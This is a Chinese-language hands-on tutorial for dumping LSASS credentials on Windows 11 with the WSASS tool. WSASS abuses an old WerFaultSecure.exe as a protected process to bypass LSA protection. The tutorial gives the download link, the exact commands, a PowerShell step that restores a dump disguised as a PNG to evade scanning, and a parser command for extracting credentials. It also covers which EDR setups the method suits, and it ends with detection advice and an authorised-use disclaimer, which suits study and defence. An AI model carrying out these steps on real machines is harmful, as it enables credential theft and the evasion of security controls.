

## 适用场景

ProcDump 的前提是能打开 LSASS。一旦 LSASS 以 PPL 运行，普通管理员权限就不够了。ProcDump 会直接报 `Access is denied`，换什么参数都没用。

WSASS 走的是另一条路：不直接打开 LSASS，而是借 Windows 错误报告（WER）的 `WerfaultSecure.exe` 来转储。这个进程本身以 PPL 级别运行，能访问受保护的进程。

在 25H2 上实测时，`RunAsPPL=0` 也能成功，说明它不只适用于 PPL 场景。

## 工作原理

WSASS 的命令行很简单：

```cmd
WSASS.exe <PathToWerFaultSecure.exe> <TargetPID>
```

执行后大致做这几件事：

1. 启用 `SeDebugPrivilege`；
2. 用一个旧版 `WerfaultSecure.exe` 创建 PPL 进程；
3. 让这个进程去转储目标；
4. 生成 minidump；
5. 把文件头的 `MDMP` 替换成 PNG 魔数，文件名通常是 `proc.png`。

最后一步是为了降低被静态扫描发现的概率。代价是解析前必须把文件头改回来。

## 下载

官方 release 是一个压缩包：

```text
https://github.com/TwoSevenOneT/WSASS/releases/download/main/WSASS_Release_1.0.zip
```

里面有两个关键文件：

- `WSASS.exe`；
- `WerFaultSecure.exe`（旧版，36 KB 左右）。

应使用压缩包自带的旧版。系统自带的 `WerfaultSecure.exe` 可能已经修复相关行为，WSASS 不一定成功。

## 实战步骤

### 1. 确认 LSASS 的 PID

```cmd
tasklist /fi "imagename eq lsass.exe"
```

本机输出：

```text
lsass.exe   1224   Services   0   12,345 K
```

PID 每次重启都会变化，执行前需要重新确认。

### 2. 执行 WSASS

把两个文件放在同一目录，管理员权限运行：

```cmd
WSASS.exe WerFaultSecure.exe 1224
```

输出大概是这样：



几个关键行：

- `SeDebugPrivilege enabled successfully.`：权限没问题；
- `Successfully created PPL process with PID: 25880`：成功创建 PPL 进程；
- `Protection level: PROTECTION_LEVEL_WINTCB_LIGHT`：进程保护级别；
- `Process WerfaultSecure.exe exited with code: 2147942526`：子进程退出码；
- `Process dump successfully`：转储完成。

该退出码不影响结果，dump 已正常生成。

### 3. 找到输出文件

默认在当前目录生成 `proc.png`，本机大小约 85.9 MB：

```powershell
Get-Item .\proc.png | Select-Object Name, Length
```

该文件不是图片，文件头是 PNG 魔数，内容实际是 minidump，不要双击打开。

### 4. 恢复 MDMP 头

```powershell
$p = 'C:\temp\proc.png'
$b = [IO.File]::ReadAllBytes($p)
[byte[]]$magic = 0x4D, 0x44, 0x4D, 0x50   # MDMP
for ($i = 0; $i -lt 4; $i++) { $b[$i] = $magic[$i] }
[IO.File]::WriteAllBytes($p, $b)
```

改完后把文件重命名为 `lsass.dmp`，再交给解析工具。

### 5. 解析

使用 KvcForensic 解析：

```powershell
KvcForensic.exe --analyze-dump --input lsass.dmp --output result.txt --format txt --full
```

它选中 `MSV_x64_11_25H2` 模板后解析成功，说明 WSASS 生成的 dump 是完整的。

Pypykatz 也可以试，但在 25H2 上大概率还是卡在 MSV，原因和 ProcDump 的 dump 一样，不是 WSASS 的问题。

## 25H2 实测结果

| 项目 | 结果 |
| --- | --- |
| 系统 | Windows 11 25H2，Build 26200 |
| LSASS 保护 | `RunAsPPL=0` |
| WSASS 版本 | 1.0 |
| WerFaultSecure | 压缩包自带的旧版 |
| PPL 级别 | `PROTECTION_LEVEL_WINTCB_LIGHT` |
| 输出 | `proc.png`，85.9 MB |
| 恢复头后解析 | KvcForensic 成功 |

本机没有开 PPL，所以严格来说用 ProcDump 就够了。WSASS 在这里的价值是验证它在 25H2 上还能跑通，而不是证明它比 ProcDump 更强。

## 它适合什么场景

- LSASS 以 PPL 运行，ProcDump 打不开；
- 不想加载内核驱动，KVC 的驱动方案成本太高；
- 有可用的旧版 `WerfaultSecure.exe`；
- 目标机的 EDR 对 WER 进程链监控不严。

不适合的场景：

- 目标机开了 Credential Guard，dump 出来也没有域凭据；
- 杀软直接拦截 WER 子进程创建；
- 你拿不到旧版 `WerfaultSecure.exe`。

## 检测与防御

WSASS 的行为链比较固定：

- 创建 `WerfaultSecure.exe` 子进程；
- 该进程以 PPL 级别运行；
- 随后出现大文件写入，文件名可能是 `proc.png`；
- 过程中存在对 `lsass.exe` 的访问。

可以关注：

- Sysmon Event ID 1（进程创建），父进程不是 `werfault.exe` 却出现 `WerfaultSecure.exe`；
- Sysmon Event ID 11（文件创建），大体积 `proc.png`；
- Sysmon Event ID 10（ProcessAccess），目标为 `lsass.exe`；
- Defender 的 ASR 规则和 Credential Guard；
- 对 WER 目录和 `WerfaultSecure.exe` 的完整性监控。

## 参考链接

| 链接 | 用途 |
| --- | --- |
| [WSASS GitHub](https://github.com/TwoSevenOneT/WSASS) | 源码、命令格式、PNG 头说明 |
| [WSASS Release 1.0](https://github.com/TwoSevenOneT/WSASS/releases/download/main/WSASS_Release_1.0.zip) | 下载 WSASS 和自带的旧版 WerFaultSecure |
| [Dumping LSASS With WER](https://www.zerosalarium.com/2025/09/Dumping-LSASS-With-WER-On-Modern-Windows-11.html) | 作者写的完整原理和实战过程，强烈建议先读 |
| [CreateProcessAsPPL](https://github.com/TwoSevenOneT/CreateProcessAsPPL) | 同作者的无驱动 PPL 进程创建工具，理解 WSASS 的前置能力 |
| [WSASS 演示视频](https://www.youtube.com/watch?v=FZ20oQ-pVwg) | 看一遍实际运行过程，比读文字直观 |
| [Windows Error Reporting](https://learn.microsoft.com/en-us/windows/win32/wer/windows-error-reporting) | WER 的官方文档，理解 WerFaultSecure 的角色 |
| [Protecting anti-malware services](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-) | PPL 保护机制的官方说明 |
| [配置 LSA 保护](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection) | `RunAsPPL` 的配置和影响 |
| [MINIDUMP_HEADER](https://learn.microsoft.com/en-us/windows/win32/api/minidumpapiset/ns-minidumpapiset-minidump_header) | 理解 `MDMP` 头和恢复方法 |
| [MITRE ATT&CK T1003.001](https://attack.mitre.org/techniques/T1003/001/) | LSASS 凭据转储的技术编号 |
| [Atomic Red Team T1003.001](https://www.atomicredteam.io/atomic-red-team/atomics/T1003.001) | 检测规则验证 |
| [HackTricks：Stealing Windows Credentials](https://hacktricks.wiki/en/windows-hardening/stealing-credentials/index.html) | 对比其他转储路径 |

## 相关文章

- [ProcDump 转储 LSASS](./ProcDump转储LSASS实战.md)
- [Pypykatz 离线解析](./Pypykatz离线解析LSASS实战.md)
- [KvcForensic 解析 LSASS](./KvcForensic解析LSASS实战.md)

::: warning 声明
本文仅用于授权的安全测试与教学环境。WSASS 利用的是 Windows 错误报告机制，请勿在未授权主机上使用。
:::
